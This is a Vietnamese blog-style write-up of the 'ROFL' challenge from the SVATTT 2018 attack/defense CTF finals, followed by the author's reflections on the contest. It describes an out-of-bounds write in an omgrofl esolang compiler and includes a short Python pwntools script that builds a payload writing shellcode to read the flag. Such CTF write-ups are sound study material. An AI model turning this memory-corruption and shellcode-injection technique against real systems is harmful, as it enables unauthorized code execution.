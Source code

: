 ```yaml
---
layout: post
title: "[SVATTT2018] ROFL"
---
```


## ROFL
Bài này là một compiler ngôn ngữ  [omgrofl](https://esolangs.org/wiki/Omgrofl) gì đấy. Bài được chạy trên web chứ không phải netcat đến. Mới vào mình đã tìm đc binary nhưng quả thực là để có thể reverse được bài này rất khó. Riêng việc mở trên IDA để decompile đã mất 5-10p rồi (binary hơn 6mb @@ ). 

![](https://i.imgur.com/lKw9SI1.png)

Nhưng teammate mình (anh **bo8**) có thấy các instructions của **omgrofl** trong decompile này lòi ra thêm instruction **imho** (im hộ) so với bản chính. Instruction này có chức năng reverse lại số nhập vào.

![](https://i.imgur.com/cTYCnPa.png)

Nên có thể đoán đc lỗi ở đâu đây liên quan đến hàm này, nhưng mà càng debug càng rối... 

Sau đó ban tổ chức có cho 1 hint đại khái là *cách lưu biến ở trong omgrofl*. **bo8** liền nhận ra là lỗi chắc chắn liên quan đến cái **lol lol** gì đó ròi. Vì trong omgrofl, nó khởi tạo biến bằng các lệnh **l[o]l** với chữ`o` thay đổi.

Mình thử lần đầu tiên nhưng chẳng có gì xảy ra cả, sau đó tăng số lượng `lol` lên thì ... 

![](https://i.imgur.com/GWTqHub.png)

**segmentation fault** rồi nhé :)))

Debug bằng gdb thì thấy lỗi ở ```mov    QWORD PTR [rdx+rcx*8],rbx```

![](https://i.imgur.com/UV4y8tf.png)

Sau vài lần chạy thử thì ta thấy được rằng khoảng cách từ thành ghi rdx đến giá trị gọi hàm ```call   0x7ffff7ff5081`` là không đổi, đồng thời thanh ghi rbx cũng bằng chính giá trị mà ta gán vào **lol**

Vậy có thể dễ dàng nghĩ ra cách exploit lỗi out-of-bound write này bằng cách tính toán số lượng **o** để ghi shellcode vào địa chính địa chỉ `0x7ffff7ff5081` ( rdx + rcx*8 = `0x7ffff7ff5081` )

Đoạn code generate payload mình cũng đơn giản : 

```python
	pl=""
	x="l{0}l iz {1}\n"
	y="imho l{0}l"
	sc=asm(shellcraft.amd64.linux.cat('flag','1'))
	sc_l=len(sc)
	print sc_l%8
	sc=sc.ljust(sc_l+8-sc_l%8,'\x90')
	num=531
	for i in xrange(len(sc)/8):
		pl+=x.format('o'*(num+i),u64(sc[i*8:i*8+8]))
	pl+=y.format('o'*num)
	writefile('test',pl)
```

![](https://i.imgur.com/oUAaNMw.png)

Sau đó chỉ cần up payload lên thôi. Bài này ko hiểu sao tool patch của mình không patch được, với cả binary quá lớn để có thể thấy lỗi thực sự nằm đâu ...

Và với payload và kiểu chơi atk/def như này thì payload mình nhanh chóng bị replay :)). Mình đã nóng vội khi đã submit quá sớm mà ko encrypt kĩ, nhưng team mình là đội duy nhất làm được bài này và với lỗi như trên thì sớm muộn gì cũng có đội nhận ra lỗi nằm ở **lol**. Và lol lại là thứ ko thể giấu được trong payload nên cũng đành thôi...

Kết quả đội chỉ đạt #3 và giải nhì, đó cũng có lỗi của mình. Xin lỗi anh em bmtd, bo8, joker, xin lỗi thầy và các fan mến mộ UIT :(. 

Lần này đã là lần thứ ba mình tham gia. Nhưng cảm giác không còn như 2 lần trước nữa. 

Năm 2016 không qua được vòng lại, nhưng nhìn các đàn anh đáng kính thi final castle năm ấy thật sự rất phấn khích và gay cấn.

Năm 2017 đến được vòng chung kết tuy giải không cao nhưng cũng rất gay cấn và thú vị (thọt bài arm vì lỗi linh tinh :(( )

Năm nay quả thực thi xong chả gì đọng lại cả, chỉ thấy mọi người tranh cãi hết chuyện này đến chuyện kia. BTC năm nay cũng đã rất cố gắng để tạo ra sân chơi và các challenges cho các đội. Mặc dù còn nhiều thiếu sót về rules, cấu hình hay các chuyện bên lề nhưng như anh ML đã nói, tạo ra challenges cho một giải sinh viên rất khó, làm sao để vừa đánh giá được thực lực của sinh viên và vừa phù hợp với thời gian 8 tiếng cuộc thi nên mình rất thông cảm cho BTC. Mong trong tương lai sẽ có những thay đổi phù hợp hơn. 

Còn về đội giải nhất, họ đã có chiến thuật rất hợp lí nên thắng là xứng đáng rồi. Khi meta game thay đổi, đội nào là đội thích ứng nhanh hơn là đội giành chiến thắng thôi. 

Nhưng với bản thân mình chỉ thích tấn công và lại vào team chỉ thích tấn công nên trong cuộc thi atk/def thua là phải rồi :)). Cả team đến tận phút cuối vẫn không thèm bật tcpdump :))

Cảm ơn các anh em đã chơi cùng mình, cảm ơn thầy và các bạn ở nhà làm đồ án giùm xD , cảm ơn btc đã tổ chức nên cuộc thi này. Hi vọng lần sau không phải thi nữa :)
